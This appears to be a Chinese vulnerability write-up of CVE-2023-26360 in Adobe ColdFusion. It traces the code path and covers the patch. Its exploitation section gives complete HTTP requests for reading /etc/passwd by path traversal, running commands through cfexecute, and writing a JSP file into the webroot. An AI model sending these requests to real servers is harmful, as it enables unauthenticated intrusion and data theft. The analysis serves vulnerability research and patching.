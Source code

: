 

# Adobe ColdFusion 未授权 RCE 漏洞分析 CVE-2023-26360 - 先知社区

Adobe ColdFusion 未授权 RCE 漏洞分析 CVE-2023-26360

- - -

[![](assets/1706497086-ef99858c30e74d13ca9e6494970811fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125001505-bc4510c4-bad3-1.png)

漏洞利用条件：无  
漏洞影响版本：Adobe ColdFusion < 2018.0.16、Adobe ColdFusion < 2021.0.6  
本文分析环境：Adobe Fusion 2018.0.15 版本

## 前言

Adobe ColdFusion 是一种用于构建动态 Web 应用程序的服务器端编程语言和开发平台。它由 Adobe Systems 开发和维护。ColdFusion 的主要目标是简化 Web 应用程序的开发过程，通过提供一个强大且易于使用的平台，使开发人员能够快速构建功能丰富的 Web 应用。

## 漏洞分析

网上的漏洞利用入口为 **/cf\_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc** ，我们就先来分析 **\*.cfc** 的路由处理逻辑。从 **web.xml** 配置文件里面可以看到，该路由的处理类为 **coldfusion.bootstrap.BootstrapServlet** 。而这个类只是一个入口类，实际处理类为 **coldfusion.xml.rpc.CFCServlet** 。

[![](assets/1706497086-c15badd53588e2d707fbc48e1aca163d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125002945-c8fc6518-bad5-1.png)

在 **coldfusion.xml.rpc.CFCServlet** 这个类里，使用 **IPFilterUtils.checkAdminAccess()** 函数来判断当前路由用户是否有权限访问。然而这个函数使用了 **req.getRequestURI()** 和 **startsWith()** 来判断权限，明显存在绕过。例如：原先访问 **/CFIDE/adminapi** 会被限制，现在改成 **/CFIDE//adminapi** 即可绕过程序检测。这处绕过，也就是后面的 **CVE-2023-29298** 漏洞。

[![](assets/1706497086-b94909bf92ce16a75db9054aa6b71c82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003008-d6740a2a-bad5-1.png)

本次我们分析的是 **CVE-2023-26360** ，继续往下跟代码逻辑。**Adobe ColdFusion** 程序根据不同的请求类型（**CFC**或者**Axis**），创建对应的 **filterchain** 。在 **CFC** 对应的的 **filterchain** 中，我们需要关注 **GlobalsFilter、ComponentFilter** 这两个 **filter** 。

[![](assets/1706497086-1a09b302cfd707ac8547324061eddd56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003021-de30474c-bad5-1.png)

第一个过滤器 **GlobalsFilter** ，主要用来初始化请求相关信息，并将这些信息封装在不同的 **scope** 里。后续 **POC** 中的部分参数，就是从这些 **scope** 中获取，所以这里稍微关注下就行。

[![](assets/1706497086-11482cca90509aadf7fabd5b22790477.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003120-01390706-bad6-1.png)

第二个过滤器 **ComponentFilter** ，就是本次漏洞要关注的核心类了。这里，我们需要重点关注以下 3 个部分。

-   第 1 个部分：我们需要将 **urlScope.get("\_cfclient")** 设置为 **true** ，这样才能触发到后续的漏洞点。而 **urlScope** 中的数据来自 **GET** 请求数据，所以我们正常设置 **\_cfclient=true** 就行。
-   第 2 个部分：这里调用了 **FilterUtils.GetArgumentCollection(context)** ，该函数主要是将用户请求数据重新封装起来。在函数里面，我们关注到调用了 **WDDXDeserialize()** ，存在一个反序列化操作。这处也就是后续的 **CVE-2023-29300** 漏洞，本文暂不讨论。
-   第 3 个部分：这处会把第 2 步封装好的数据，传给 **JSONUtils.deserializeJSON()** 函数处理。这个函数调用栈比较长，我们下面会逐步分析。

[![](assets/1706497086-e5431d29ab79bb4a0e8c7c7958cc0112.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003131-07e3c5b4-bad6-1.png)

在 **JSONUtils.deserializeJSON()** 函数中，程序会从用户请求数据中取 **classname** 数据，然后将其传给 **TemplateProxyFactory.resolveFile()** 函数。

[![](assets/1706497086-7faf7ef9277b90bceef50953d4a30004.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003141-0e0005d4-bad6-1.png)

**TemplateProxyFactory.resolveFile()** 函数，会根据传进来的文件路径，去加载对应的类。如果我们指定的路径文件不是标准的 **Java** 字节码文件，程序会自动把他编译成字节码文件，最终缓存至 **/app/WEB-INF/cfclasses/** 目录下。新编译的类继承自 **coldfusion.runtime.CFPage** ，并且程序最终会调用新编译类的 **runPage()** 方法。我们可以来看一下，当模板文件名为 **../../../../../../../../../../../../../etc/passwd** 时，程序编译后的字节码文件如下：

[![](assets/1706497086-05eba783953199e343024581650d4c56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003226-28b759ea-bad6-1.png)

那么通过这一特性，我们就能达到任意文件读取的效果。在审计代码时，我们会发现这个系统上自带一些 **cfc** 文件。这些文件里面出现了很多特殊标签，如 **cfinclude、cffunction、cfargument、cfset、cfif** 等。通过查询资料，我们发现这些标签都属于 **CFML**（ColdFusion Markup Language）语言的一部分。那么我们就可以通过翻阅[官方手册](https://cflib.org/udf/FileWrite)，找一些危险函数来达到 **RCE** 的目的。  
例如：写文件函数

[![](assets/1706497086-2ff1879d3e29d0ade8ebf25538c0bbf6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003238-2fd3a67a-bad6-1.png)

例如：命令执行函数

[![](assets/1706497086-f44c78d5e0cad50e27b746307b919d66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003250-36daf450-bad6-1.png)

最终的利用思路：将 **CFML** 语句通过报错写入日志文件中，然后再通过 **CVE-2023-26360** 漏洞编译、执行日志文件实现 **RCE** 。

## 漏洞利用

### 任意文件读取

```plain
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 90
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables={"_metadata":{"classname":"../../../../../../../../../../../../../etc/passwd"}}
```

[![](assets/1706497086-3f8e451ee40473b642c80105fa123eb9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003325-4c24d3d0-bad6-1.png)

### 命令执行

```plain
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 67
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables=<cfexecute name='id' outputFile='/tmp/aaa' ></cfexecute>
```

```plain
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 178
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables={"_metadata":{"classname":"../../../../../../../../../../../../../../../../../../../../../../../../../opt/coldfusion/cfusion/logs/coldfusion-out.log","_variables":[]}}
```

[![](assets/1706497086-9798dbf7e37a55c0113cd41cd90c702b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003335-51e95796-bad6-1.png)

### 文件写入

```plain
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 108
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables=<cfscript>fileWrite('/opt/coldfusion/cfusion/wwwroot/cf_scripts/demo.jsp','<%=233%>');</cfscript>
```

```plain
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 178
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

_variables={"_metadata":{"classname":"../../../../../../../../../../../../../../../../../../../../../../../../../opt/coldfusion/cfusion/logs/coldfusion-out.log","_variables":[]}}
```

[![](assets/1706497086-a4c47ee8d4e91665740bd27e617ffed0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003344-575b2754-bad6-1.png)

## 补丁分析

官方修复方式：所有的 **cfclient** 请求，文件后缀必须是 **.cfc** 结尾，相当于只能请求服务器上已有的 **cfc** 文件了。

[![](assets/1706497086-96a34915992b703c0e1103f7a3a029d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125003354-5d4ed5b6-bad6-1.png)

## 参考文章

[https://blog.securelayer7.net/unauthorized-rce-in-adobe-coldfusion/](https://blog.securelayer7.net/unauthorized-rce-in-adobe-coldfusion/)  
[https://attackerkb.com/topics/F36ClHTTIQ/cve-2023-26360/rapid7-analysis](https://attackerkb.com/topics/F36ClHTTIQ/cve-2023-26360/rapid7-analysis)  
[https://shfsec.com/cve-analysis-adobe-coldfusion-from-lfi-to-rce-cve-2023-26359-cve-2023-26360](https://shfsec.com/cve-analysis-adobe-coldfusion-from-lfi-to-rce-cve-2023-26359-cve-2023-26360)
